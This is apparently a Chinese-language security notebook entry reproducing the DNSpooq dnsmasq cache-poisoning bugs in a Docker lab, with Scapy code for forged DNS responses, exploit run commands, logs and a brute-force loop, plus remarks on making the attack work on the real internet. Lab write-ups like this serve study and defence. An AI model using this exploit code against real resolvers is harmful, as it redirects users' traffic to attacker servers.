





# DNS 缓存投毒(劫持)

> GitHub 仓库源文件：[点击打开网页渲染版](https://github.com/ben2023niao/ben-ops-notes/blob/main/doc/md/202304141557-%E5%AE%89%E5%85%A8%E4%B8%8E%E5%A0%A1%E5%9E%92%E6%9C%BA%2B%E5%AE%89%E5%85%A8%E8%BF%90%E7%BB%B4%2BCVE%2BDNS-DNS%20%E7%BC%93%E5%AD%98%E6%8A%95%E6%AF%92%28%E5%8A%AB%E6%8C%81%29.md)

DNSpooq，大致分为两类

DNS缓存中毒CVE-2020-25686、CVE-2020-25684、CVE-2020-25685

缓冲区溢出CVE-2020-25687、CVE-2020-25683、CVE-2020-25682、CVE-2020-25681

DNS缓存投毒又称DNS欺骗，是一种通过查找并利用DNS系统中存在的漏洞，将流量从合法服务器引导至虚假服务器上的攻击方式。

局域网实现

首先，我们选择研究的漏洞是DNSpooq

主要是因为该漏洞相对比较新，受影响设备比较广

同时在Kaminsky漏洞的基础上，进行了优化，可以覆盖已有缓存

参考项目：[github.com/knqyf263/dns](http://link.zhihu.com/?target=https://github.com/knqyf263/dnspooq)



首先先开启3个容器，分别是attack（攻击机器），forwarder（DNS转发器），cache server（DNS服务器）

1. 攻击机器向转发器发送大量查询报文

2. 转发器向服务器查询解析域名

3. 攻击机器伪装成服务器，向转发器回复构造后的响应报文，并实现投毒

这里的问题有2个，第一是如何才能伪装成服务器，第二是怎么构造响应报文进行投毒

为了进行DNS缓存中毒，需要两个数据：

- QID
- UDP源端口（需要注意，53是DNS协议端口，并非此处提到的源端口）

在上文中提到，DNS服务器是通过QID来匹配查询报文和响应报文的，而且我们要在服务器正确响应之前发送

并且，每次发送查询报文，QID都会不一样，QID字段是16位，所以一共需要爆破2^16次

而UDP源端口号，指的是每次数据发送的端口号，在2008年以前是固定的，在发布了Kaminsky漏洞后，源端口也开始随机

所以也需要爆破2^16次

所以一共需要爆破的次数是2^32次，

每次最多同时发送150个包

假设在100M的网络上发送90字节的数据包，每秒大约可以发送145635个

最后得出结论,大约需要2^32/150/145635=196.6秒

构造报文进行DNS投毒代码

```
res = Ether() / \
IP(src="203.0.113.1", dst="203.0.113.1") / \
      UDP(sport=53, dport=0) / \
      DNS(id=0, qr=1, ra=1, qd=qd,
an=DNSRR(rrname="example.com", ttl=900, rdata="google.com", type="CNAME", rclass="IN") /
DNSRR(rrname="google.com", ttl=900, rdata="203.0.113.1", type="A", rclass="IN"))
dns_layer = req[DNS]
udp_layer = req[UDP]
```

逻辑很简单，查询包问的是<http://example.com（不存在）的ip是多少>

响应包回答的是，<http://example.com> 也叫 [http://google.com](http://link.zhihu.com/?target=http://google.com)，[http://google.com](http://link.zhihu.com/?target=http://google.com) 的IP地址是 203.0.113.1

所以就成功的把 [http://google.com](http://link.zhihu.com/?target=http://google.com) 的缓存覆盖成 203.0.113.1

同时，由于应答区最多可存10条数据，所以一次最多投毒10条

攻击逻辑清楚后，直接搭建环境进行攻击

```bash
git clone https://github.com/knqyf263/dnspooq
cd dnspooq
docker-compose up -d
开启三个命令行分别执行下列攻击命令

1. 进入attack容器，执行exp脚本
$ docker-compose exec attacker bash
bash-5.0# python exploit.py
Querying non-cached names...
Generating spoofed packets...
Poisoned: b'google.com.' => 203.0.113.1
sent 3032017 responses in 50.309 seconds
```



```bash
2. 进入forwarder容器查看日志
$ docker-compose logs -f forwarder
...
forwarder_1 | dnsmasq[1]: query[A] example.com from 203.0.113.1
forwarder_1 | dnsmasq[1]: forwarded example.com to 203.0.113.1
forwarder_1 | dnsmasq[1]: cached example.com is
forwarder_1 | dnsmasq[1]: cached google.com is 203.0.113.1
```



```bash
3. 进入cache容器查看日志
$ docker-compose logs -f cache
Attaching to dnspooq_cache_1
cache_1 | Sniffing...
cache_1 | Source port: 46816, TXID: 16476, Query: b'example.com.'
cache_1 | Source port: 16718, TXID: 54280, Query: b'example.com.'
...
cache_1 | Source port: 46816, TXID: 56240, Query: b'example.com.'
cache_1 | Source port: 46816, TXID: 24160, Query: b'example.com.'
cache_1 | Source port: 46816, TXID: 18189, Query: b'example.com.'
cache_1 | Source port: 46816, TXID: 40361, Query: b'example.com.'
cache_1 | Source port: 46816, TXID: 13100, Query: b'example.com.'
cache_1 | Source port: 46816, TXID: 47303, Query: b'example.com.'
```



```
for txid, sport in candidates:
# Update TXID and UDP dst port
patch(dns_frame, pseudo_hdr, txid, sport)
s2.send(dns_frame)
n_pkts += 1
if sport == 65535:
res = sr1(verify, verbose=0, iface="eth0", timeout=0.01)
if res is not None and res.haslayer(DNSRR):
print(f"Poisoned: {res[DNSRR].rrname} => {res[DNSRR].rdata}")
break
end_time = time.time()
print(f"sent {n_pkts} responses in {end_time - start_time:.3f} seconds")
```

这里可以看到，[http://google.com](http://link.zhihu.com/?target=http://google.com)的缓存地址已经被投毒成功

共计爆破15482640次，用时540秒（网速问题）



内网连内功～外网看本领

公共外网实现DNS劫持

在容器中实现成功，我们打算在实际环境中继续实验

分别搭建三台机器，对应上面三个容器

但是却失败了，通过日志也发现了一些异常

通过查找资料，我们找到了问题的关键

是因为在外网环境中，攻击机器向转发器发送查询包后，转发器并不会直接询问服务器，而是会先通过路由器的DNS服务
也就是我们的公用DNS服务（203.0.113.1），这里叫做上游DNS服务

当查询不到结果时，上游DNS服务就会给出2秒超时

所以我们的实际攻击时间只有2秒

所以在局域网中的攻击方式就行不通（有办法实现的哟）

**单看此漏洞，只是通过爆破的方式，实现在局域网内的攻击，非常鸡肋。但如果通过技术手段，能够减小爆破次数，或者提高爆破的效率，就完全是另一种效果。可以通过减小熵等方式，降低要匹配的次数，最终能实现4秒内在真实外网完成攻击。也就意味着在外网平均每2次攻击就能生效非常给力**

补充知识

DNS是通过UDP协议发送数据，数据格式大致如下：

```
[IP报头[UDP报头[DNS数据报文]]]
```

DNS报文的数据格式如下

```
DNS报文：|QID|问题区|应答区|权威区|附加区|
```

其中：

QID：表示查询ID，用于匹配查询报文和响应报文的

问题区：主要是所查询的问题（可以是一个或多个）

应答区：查询到问题的答案（可以是一条或多条，可以是A记录也可以是CNAME记录或NS记录）

权威区：这里主要是记录权威DNS的NS记录（可以是一条或多条）

附加区：这里存放附加的一些记录。比如在给出权威NS记录时（NS记录中没有IP），会把它的A记录放在这里（为的是防止陷入死循环）

本地DNS服务器每次查询发送的QID都是随机的

因为DNS报文是通过UDP协议发送的，所以这里是为了方便将查询和响应的内容匹配在一起

同时，对于IP不对的、UDP源端口不对的，格式不对的、QID不对的，域名不对的，应答不对的，以及其他各种莫名其妙的包，都会被本地DNS服务器抛弃

最后

查询报文，只是填写QID和问题区，后面几个区不用填写内容。

响应报文，会填写QID（和对应查询包中的QID一致）、问题区（和对应查询包中的问题一致），还会填写后面几个区：应答区、权威区（也即填写权威DNS的区域，）、附加区。
